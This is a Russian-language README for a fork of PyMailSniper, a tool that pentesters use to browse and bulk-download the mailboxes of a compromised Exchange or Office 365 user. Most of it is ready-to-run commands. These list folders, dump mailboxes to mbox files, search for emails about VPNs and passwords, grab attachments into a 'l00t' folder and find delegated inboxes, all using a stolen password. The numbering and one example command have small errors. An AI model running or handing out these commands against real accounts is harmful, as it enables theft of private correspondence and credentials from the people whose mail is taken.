 # Инфо

За основу взят проект от foofus-sph1nx - https://github.com/foofus-sph1nx/PyMailSniper

# Что и зачем

Во время пентестов, компрометируя пользователя, никогда не будет лишним изучить его почту, 
но сделать это не всегда просто - трудности возникают при отсутствие GUI, пробрасывании портов и т.п.
Этот форк призван облегчить жизнь пентестерам и прочим личностям, максимально упростив исследование почтовых ящиков на основе MS Exchange.

Создается на основе Exchangelib - (https://github.com/ecederstrand/exchangelib)

PS:
Я не про кодер, пишу в первую очередь для себя, исправления и пожелания приветствуются)

# В чем отличия от оригинала
1) Выкачивание папок и писем в файлы формата mbox
2) Нормальный листинг папок
3) tqdm


# Usage

1. Main Help
   
   ```bash
   python3 pymailsniper.py -h
   
   usage: python3 pymailsniper.py module [options]

   optional arguments:
     -h, --help            show this help message and exit

   Modules:
     available modules

     {folders,attachment,delegation,emails}
       folders             List Mailbox Folders
       attachment          List/Download Attachments
       delegation          Find where compromised user has access
       emails              Search for Emails

   ```

2. folders module help (Просмотр Папок)
   ```bash
   usage: python3 pymailsniper.py module [options] folders [-h] [-s SERVER]
                                                        [-e EMAIL]
                                                        [-p PASSWORD] [-a]
                                                        [-c]

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -a, --absolute        Print folders absolute paths instead tree if arg is present
     -c, --count           Print count of child folders and email if present
     -r, --root            Use "root" folder as root for printing insted of "Top Information Store"

   ```
   Вывести список папок в виде дерева - 
    ```bash
    python3 pymailsniper.py folders -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок в виде дерева с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) - 
    ```bash
    python3 pymailsniper.py folders -a -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -a -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Dump module help (Скачиваем папки с письмами в mbox файлы)

   ```bash
   usage: python3 pymailsniper.py module [options] dump [-h] [-s SERVER]
                                                     [-e EMAIL] [-p PASSWORD]
                                                     [-d DUMP_FOLDER]
                                                     folder

   positional arguments:
     folder                Folder to dump

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -d DUMP_FOLDER, --dump-folder DUMP_FOLDER
                           Local folder to store .mbox dumps
   ```

   Скачать вообще все в папку dump(очень долго, не советую, посмотрю в сторону многопоточности) - 
    ```bash
    python3 pymailsniper.py dump all -d ./dump -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
    Скачать папку "secrets" в папку "qweqwe" - 
    ```bash
    python3 pymailsniper.py dump secrets -d ./qweqwe -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Exfiltrate emails (Еще не смотрел)

   ```bash
    python3 pymailsniper.py emails -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -o emails.txt
   ```

4. List and/or Download attachments (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -d l00t
   ```

5. Check if compromised account has delegated rights to any other inboxes (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -g list-of-emails.txt
   ```

